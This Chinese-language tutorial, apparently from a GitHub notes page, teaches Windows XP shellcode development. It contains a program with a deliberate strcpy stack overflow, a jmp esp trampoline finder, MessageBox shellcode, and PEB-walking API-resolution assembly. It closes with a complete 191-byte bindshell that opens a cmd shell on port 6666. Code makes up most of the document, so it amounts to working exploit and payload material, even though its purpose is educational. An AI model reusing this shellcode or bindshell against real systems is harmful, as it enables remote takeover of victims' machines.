





# shellcode 概述

shellcode 攻击中植入进程的代码。

exploit 漏洞利用就是代码植入的过程。

在 shellcode 的开发中，一般需要解决下面几个问题。

1. 让程序能够自动定位到 shellcode 的起始地址。
2. 写出比较通用版的 shellcode 。
3. shellcode 编码。
4. shellcode 需要短小精悍。

## 准备

编译一段包含栈溢出漏洞的代码，如下所示。

```cpp

#include <stdio.h>
#include <windows.h>

#define PASSWORD "1234567"

int verify_password(char* password){
	int authenticated;
	char buffer[44];
	authenticated = strcmp(password, PASSWORD);
	// 制造栈溢出漏洞
	strcpy(buffer, password);
	return authenticated;
}

int main(){
	int valid_flag = 0;
	char password[1024];
	FILE* fp;
	// 加载 user32.dll ，方便演示弹窗
	LoadLibrary("user32.dll");
	// 使用文件方便编写 exp
	if (!(fp=fopen("password.txt", "rw+"))){
		exit(0);
	}
	fscanf(fp, "%s", password);
	valid_flag = verify_password(password);
	if (valid_flag){
		printf("incorrect password!\n");
	}else{
		printf("Congratulation! You have passed the verification!\n");
	}
	fclose(fp);
	return 0;
}
```

实验环境：

- 操作系统：XPSP3
- 编译器：VC++ 6.0
- build 版本：debug 版本

首先找到需要需要覆盖的内存地址，如下图所示。



然后构造对应字节大小的数据，需要 14 个 DWORD 数据才可以覆盖返回地址，这里使用 14 个 4321 写入 password.txt 中，调试可以发现正好覆盖返回地址。

## 定位 shellcode

一般情况下，`ESP` 寄存器中的地址总是指向系统栈中且不会被溢出的数据破坏。函数返回时，`ESP` 所指的位置恰好是我们所淹没的返回地址的下一个位置，所以我们可以将 `ESP` 作为跳板。



## 获取跳板

由于使用 `jmp esp` 作为跳板，那么就要先找到内存中 `jmp esp` 指令的地址，该地址最好是一些万年不变的地址，并且位于几乎所有的进程都会使用的模块。

下面代码就是查找 `user32.dll` 模块中 `jmp esp` 的代码。

```cpp
#include <windows.h>
#include <stdio.h>
#define DLL_NAME "user32.dll"
main()
{
	BYTE* ptr;
	int position,address;
	HINSTANCE handle;
	BOOL done_flag = FALSE;

	handle=LoadLibrary(DLL_NAME);

	if(!handle)
	{
		printf(" load dll erro !");
		exit(0);
	}

	ptr = (BYTE*)handle;

	for(position = 0; !done_flag; position++)
	{
		try
		{
			if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
			{
				//0xFFE4 is the opcode of jmp esp
				int address = (int)ptr + position;
				printf("OPCODE found at 0x%x\n",address);
			}
		}
		catch(...)
		{
			int address = (int)ptr + position;
			printf("END OF 0x%x\n", address);
			done_flag = true;
		}
	}
}
```

将上述代码在 xp sp3 操作系统上使用 VC 6.0 编译运行结果如下所示，这里选用 0x77d456f7 处的 jmp esp 作为定位 shellcode 的跳板。

```bash
OPCODE found at 0x77d29353
OPCODE found at 0x77d456f7
......
END OF 0x77e49000
```

使用 dependency walker 获取 ExitProcess（kernel32.dll） 和 MessageBoxA（user32.dll）的内存地址分别为 0x7c81cafa 和 0x77d507ea 。

构造 shellcode，调试至无问题后在 x64dbg 选中 shellcode 对应的汇编代码，使用右键菜单 -> 二进制 -> 复制（快捷键 Shift + C），并通过 010Editor -> Edit -> paste from -> paste from hex text (快捷键 Ctrl+Shift+V) 粘贴到二进制文本中，等待后续使用。

```cpp
#include <WINDOWS.H>

int main(){
	HINSTANCE libhandle;
	char * dllbuf = "user32.dll";
	libhandle = LoadLibrary(dllbuf);

	__asm{
		sub sp, 0x440
		xor ebx, ebx
		xor eax, eax	// 清零
		mov al, 0x74	// 构造出 push 0x00000074 即 t
		push eax
		push 0x61434B43	// 构造出 CKCa

		mov eax, esp
		push ebx
		push eax
		push eax
		push ebx
		mov eax, 0x77d507ea	// MessageBoxA
		call eax

		push ebx
		mov eax, 0x7c81cafa // ExitProcess
		call eax
	}
	return 0;
}
```

修改 password.txt 的内容，将返回地址覆盖为 0x77d456f7, 并写入之前准备好的 shellcode ，如下图所示。



然后运行程序，将执行 shellcode, 弹出 MessageBox 并且可以正常退出。如下图所示。



# 开发通用的 shellcode

## 通过 PEB 定位 API 地址

1. 首先通过段选择字 `FS` 在内存中找到当前的线程环境块 `TEB` 。
1. 线程环境块偏移位置为 `0x30` 的地方存放着指向进程环境块 `PEB` 的指针。
1. 进程环境块中偏移位置为 `0x0C` 的地方存放着指向 `PEB_LDR_DATA` 结构体的指针，其中，存放着已经被进程装载的动态链接库的信息。
1. `PEB_LDR_DATA` 结构体偏移位置为 `0x1C` 的地方存放着指向模块初始化链表的头指针 `InInitializationOrderModuleList` 。
1. 模块初始化链表 `InInitializationOrderModuleList` 中按顺序存放着 PE 装入运行时初始化模块的信息，第一个链表结点是 `ntdll.dll`，第二个链表结点就是 `kernel32.dll`。
1. 找到属于 `kernel32.dll` 的结点后，在其基础上再偏移 `0x08` 就是 `kernel32.dll` 在内存中的加载基地址。
1. 从 `kernel32.dll` 的加载基址算起，偏移 `0x3C` 的地方就是其 `PE` 头。
1. `PE` 头偏移 `0x78` 的地方存放着指向函数导出表的指针。
1. 至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址。
   - 导出表偏移 `0x1C` 处的指针指向存储导出函数偏移地址（RVA）的列表。
   - 导出表偏移 `0x20` 处的指针指向存储导出函数函数名的列表。
   - 函数的 `RVA` 地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的 `RVA` 。
   - 获得 `RVA` 后，再加上前边已经得到的动态链接库的加载基址，就获得了所需 API 此刻在内存中的虚拟地址，这个地址就是我们最终在 shellcode 中调用时需要的地址。



相应的汇编代码如下：

```asm
    nop
    nop

    CLD								// 清空 DF 标志位
    push 0x1e380a6a					// MessageBoxA 的hash
    push 0x4fd18963					// ExitProcess 的hash
    push 0x0c917432					// LoadlibraryA 的hash
    mov esi, esp					// esi 指向了 LoadlibraryA 的hash
    lea edi, [esi - 0xC]			// edi 指向了 MessageBoxA 的hash

    xor ebx, ebx
    mov bh, 0x04
    sub esp, ebx					// ebx = 0x00000400

    mov bx, 0x3233					// ebx = 0x00003233
    push ebx
    push 0x72657375					// 此时内存 75736572 33320000
    push esp						// 保存 user32 字符串的地址
    xor edx, edx

    mov ebx, fs:[edx + 0x30]		// ebx 指向 PEB
    mov ecx, [ebx + 0x0C]			// ecx 指向 LDR
    mov ecx, [ecx + 0x1C]			// ecx 指向第一个结点，该结点首地址指向第二个结点

    mov ecx, [ecx]					// ecx 指向第二个结点
    mov ebp, [ecx + 0x08]			// ebp 指向 kernel32.dll 基址


find_lib_functions:

    lodsd							// 加载 esi 指向的内存到 eax 中， 并且 esi = esi + 4
    cmp eax, 0x1e380a6a             // 如果查找的函数为 MessageBoxA 则调用 LoadlibraryA 加载 user32 模块
    jne find_functions
    xchg eax, ebp
    call [edi - 0x8]                // 调用 LoadlibraryA
    xchg eax, ebp                   // ebp 始终保存模块基址

find_functions:
    pushad                          // 所有通用寄存器入栈
    mov eax, [ebp + 0x3C]			// 获取模块的 PE 头
    mov ecx, [ebp + eax + 0x78]		// 获取导出表指针偏移
    add ecx, ebp					// 获取导出表的实际位置
    mov ebx, [ecx + 0x20]			// 导出函数函数名的列表偏移
    add ebx, ebp					// 导出函数函数名的列表的实际位置
    xor edi, edi

next_function_loop:
    inc edi
    mov esi, [ebx + edi *4]			// 导出函数函数名相对偏移
    add esi, ebp					// 实际位置
    cdq

hash_loop:							// hash 函数
    movsx eax, byte ptr[esi]
    cmp al , ah
    jz compare_hash
    ror edx, 7
    add edx, eax
    inc esi
    jmp hash_loop

compare_hash:
    cmp edx, [esp + 0x1C]
    jnz next_function_loop
    mov ebx, [ecx + 0x24]           // 解析 PE
    add ebx, ebp
    mov di, [ebx + 2 * edi]
    mov ebx, [ecx + 0x1c]
    add ebx, ebp
    add ebp, [ebx + 4 * edi]

    xchg eax, ebp
    pop edi
    stosd
    push edi
    popad                           // 所有通用寄存器出栈
    cmp eax, 0x1e380a6a             // 是否找到最后一个函数
    jne find_lib_functions          // 查找下一个函数

function_call:
    xor ebx, ebx
    xor eax, eax                    // 清零
    mov al, 0x74                    // 构造出 push 0x00000074 即 t
    push eax
    push 0x61434B43	                // 构造出 CKCa

    mov eax, esp
    push ebx
    push eax
    push eax
    push ebx
    call [edi - 0x04]	            // MessageBoxA

    push ebx
    call [edi - 0x08]               // ExitProcess

    nop
    nop
```

## shellcode 编码

### 异或运算

使用异或运算编码需要注意一下几点：

- 用于异或的特定数据相当于加密算法的密钥，在选取时不可与 shellcode 已有字节相同，否则编码后会产生 NULL 字节。
- 可以选用多个密钥分别对 shellcode 的不同区域进行编码，但会增加解码操作的复杂性。
- 可以对 shellcode 进行很多轮编码运算。

### shellcode 瘦身

1. 勤俭持家——精挑细选“短”指令
1. 事半功倍——“复合”指令功能强
1. 妙用内存——另类的 API 调用方式
1. 色既是空，空既是色——代码也可以当数据
1. 变废为宝——调整栈顶回收数据
1. 打破常规——巧用寄存器
1. 取其精华，去其糟粕——永恒的压缩法宝，hash

### hash 算法需要考虑的因素
1. 所需的每个库文件（dll）内所有导出函数的函数名经过hash后的摘要不能有“碰撞”。
1. 函数名经过hash后得到的摘要应该最短。
1. hash算法实现所需的代码篇幅最短。
1. 经过hash后的摘要可等价于指令的机器码，即把数据也当做代码使用。

### 191 个字节的 bindshell

实现bindshell 需要的函数。

1. `kernel32.dll` 中的导出函数
```cpp
HMODULE LoadLibraryA(
  LPCTSTR lpFileName   // file name of module
);

BOOL CreateProcess(
  LPCTSTR lpApplicationName,                 // name of executable module
  LPTSTR lpCommandLine,                      // command line string
  LPSECURITY_ATTRIBUTES lpProcessAttributes, // SD
  LPSECURITY_ATTRIBUTES lpThreadAttributes,  // SD
  BOOL bInheritHandles,                      // handle inheritance option
  DWORD dwCreationFlags,                     // creation flags
  LPVOID lpEnvironment,                      // new environment block
  LPCTSTR lpCurrentDirectory,                // current directory name
  LPSTARTUPINFO lpStartupInfo,               // startup information
  LPPROCESS_INFORMATION lpProcessInformation // process information
);

VOID ExitProcess(
  UINT uExitCode   // exit code for all threads
);
```

2. `ws2_32.dll` 中的导出函数
```cpp

int WSAStartup(
  WORD wVersionRequested,
  LPWSADATA lpWSAData
);

typedef struct WSAData {
  WORD                  wVersion;
  WORD                  wHighVersion;
  char                  szDescription[WSADESCRIPTION_LEN+1];
  char                  szSystemStatus[WSASYS_STATUS_LEN+1];
  unsigned short        iMaxSockets;
  unsigned short        iMaxUdpDg;
  char FAR *            lpVendorInfo;
} WSADATA, *LPWSADATA; 


SOCKET WSASocketA(
  int af,
  int type,
  int protocol,
  LPWSAPROTOCOL_INFO lpProtocolInfo,
  GROUP g,
  DWORD dwFlags
);


int bind(
  SOCKET s,                          
  const struct sockaddr FAR *name,   
  int namelen                        
);

struct sockaddr {
  u_short    sa_family;
  char       sa_data[14];
};   


struct sockaddr_in {
        short   sin_family;
        u_short sin_port;
        struct  in_addr sin_addr;
        char    sin_zero[8];
};

int listen(
  SOCKET s,    
  int backlog  
);

SOCKET accept(
  SOCKET s,
  struct sockaddr FAR *addr,
  int FAR *addrlen
);
```


```asm
    nop
    nop
    nop
  ; start of shellcode 
  ; assume: eax points here 
  ; function hashes (executable as nop-equivalent) 
    _emit 0x59	; LoadLibraryA ; pop ecx 
    _emit 0x81 	; CreateProcessA ; or ecx, 0x203062d3 
    _emit 0xc9 	; ExitProcess 
    _emit 0xd3 	; WSAStartup 
    _emit 0x62 	; WSASocketA 
    _emit 0x30 	; bind 
    _emit 0x20 	; listen 
    _emit 0x41 	; accept ; inc ecx 

  ; "CMd" 
    _emit 0x43 	; inc ebx 
    _emit 0x4d 	; dec ebp 
    _emit 0x64 	; FS: 
  
  ; start of proper code 
    cdq 					; set edx = 0 (eax points to stack so is less than 0x80000000) 
    xchg eax, esi 			; esi = addr of first function hash 
    lea edi, [esi - 0x18] 	; edi = addr to start writing function 
                ; addresses (last addr will be written just 
                ; before "cmd") 
    
  ; find base addr of kernel32.dll 
    mov ebx, fs:[edx + 0x30] 	; ebx = address of PEB 
    mov ecx, [ebx + 0x0c] 		; ecx = pointer to loader data 
    mov ecx, [ecx + 0x1c] 		; ecx = first entry in initialisation order list 
    mov ecx, [ecx] 				; ecx = second entry in list (kernel32.dll) 
    mov ebp, [ecx + 0x08] 		; ebp = base address of kernel32.dll 
    
  ; make some stack space 
    mov dh, 0x03 			; sizeof(WSADATA) is 0x190 
    sub esp, edx 
    
  ; push a pointer to "ws2_32" onto stack 
    mov dx, 0x3233 			; rest of edx is null 
    push edx 
    push 0x5f327377 
    push esp 

    
  find_lib_functions: 
    lodsb 					; load next hash into al and increment esi 
    cmp al, 0xd3 				; hash of WSAStartup - trigger 
                ; LoadLibrary("ws2_32") 
    jne find_functions 
    xchg eax, ebp 			; save current hash 
    call [edi - 0xc] 			; LoadLibraryA 
    xchg eax, ebp 			; restore current hash, and update ebp 
                ; with base address of ws2_32.dll 
    push edi 					; save location of addr of first winsock function 
    
  find_functions: 
    pushad 						; preserve registers 
    mov eax, [ebp + 0x3c]		; eax = start of PE header 
    mov ecx, [ebp + eax + 0x78]	; ecx = relative offset of export table 
    add ecx, ebp 				; ecx = absolute addr of export table 
    mov ebx, [ecx + 0x20] 		; ebx = relative offset of names table 
    add ebx, ebp 				; ebx = absolute addr of names table 
    xor edi, edi 				; edi will count through the functions 

    
  next_function_loop: 
    inc edi 					; increment function counter 
    mov esi, [ebx + edi * 4] 	; esi = relative offset of current function name 
    add esi, ebp 				; esi = absolute addr of current function name 
    cdq 						; dl will hold hash (we know eax is small) 
    
  hash_loop: 
    lodsb 					; load next char into al and increment esi 
    xor al, 0x71 				; XOR current char with 0x71 
    sub dl, al 				; update hash with current char 
    cmp al, 0x71 				; loop until we reach end of string 
    jne hash_loop 
    cmp dl, [esp + 0x1c] 		; compare to the requested hash (saved on stack from pushad) 
    jnz next_function_loop 
    
                  ; we now have the right function 
    
    mov ebx, [ecx + 0x24] 		; ebx = relative offset of ordinals table 
    add ebx, ebp 				; ebx = absolute addr of ordinals table 
    mov di, [ebx + 2 * edi] 		; di = ordinal number of matched function 
    mov ebx, [ecx + 0x1c] 		; ebx = relative offset of address table 
    add ebx, ebp 				; ebx = absolute addr of address table 
    add ebp, [ebx + 4 * edi] 	; add to ebp (base addr of module) the 
                  ; relative offset of matched function 
    xchg eax, ebp 				; move func addr into eax 
    pop edi 					; edi is last onto stack in pushad 
    stosd 					; write function addr to [edi] and increment edi 
    push edi 
    popad					; restore registers 
    cmp esi, edi 				; loop until we reach end of last hash 
    jne find_lib_functions 
    pop esi 					; saved location of first winsock function 
                  ; we will lodsd and call each func in sequence 
    
  ; initialize winsock 
    
    push esp 					; use stack for WSADATA 
    push 0x02 				; wVersionRequested 
    lodsd 
    call eax 					; WSAStartup 
    
  ; null-terminate "cmd" 
    mov byte ptr [esi + 0x13], al ; eax = 0 if WSAStartup() worked 
    
  ; clear some stack to use as NULL parameters 
    lea ecx, [eax + 0x30] 		; sizeof(STARTUPINFO) = 0x44, 
    mov edi, esp 
    rep stosd 				; eax is still 0 
  
  ; create socket 
    inc eax 
    push eax					; type = 1 (SOCK_STREAM) 
    inc eax 
    push eax ; af = 2 (AF_INET) 
    lodsd 
    call eax ; WSASocketA 
    xchg ebp, eax				; save SOCKET descriptor in ebp (safe from 
                  ; being changed by remaining API calls) 
    
  ; push bind parameters 
    mov eax, 0x0a1aff02 		; 0x1a0a = port 6666, 0x02 = AF_INET 
    xor ah, ah					; remove the ff from eax 
    push eax	 				; we use 0x0a1a0002 as both the name (struct 
                  ; sockaddr) and namelen (which only needs to 
                  ; be large enough) 
    push esp 					; pointer to our sockaddr struct 
    
  ; call bind(), listen() and accept() in turn 
  call_loop: 
    push ebp					; saved SOCKET descriptor (we implicitly pass 
                  ; NULL for all other params) 
    lodsd 
    call eax 					; call the next function 
    test eax, eax 				; bind() and listen() return 0, accept() 
                  ; returns a SOCKET descriptor 
    jz call_loop 
    
  ; initialise a STARTUPINFO structure at esp 
    inc byte ptr [esp + 0x2d] 	; set STARTF_USESTDHANDLES to true 
    sub edi, 0x6c 				; point edi at hStdInput in STARTUPINFO 
    stosd 					; use SOCKET descriptor returned by accept 
                ; (still in eax) as the stdin handle 
    stosd 					; same for stdout 
    stosd					; same for stderr (optional) 
    
  ; create process 
    pop eax 			; set eax = 0 (STARTUPINFO now at esp + 4) 
    push esp			; use stack as PROCESSINFORMATION structure 
    ; (STARTUPINFO now back to esp) 
    push esp 			; STARTUPINFO structure 
    push eax 		; lpCurrentDirectory = NULL 
    push eax 		; lpEnvironment = NULL 
    push eax 		; dwCreationFlags = NULL 
    push esp 			; bInheritHandles = true 
    push eax 		; lpThreadAttributes = NULL 
    push eax 		; lpProcessAttributes = NULL 
    push esi 			; lpCommandLine = "cmd" 
    push eax 		; lpApplicationName = NULL 
    call [esi - 0x1c] 	; CreateProcessA 
    
  ; call ExitProcess() 
    call [esi - 0x18] ; ExitProcess
    nop
    nop
```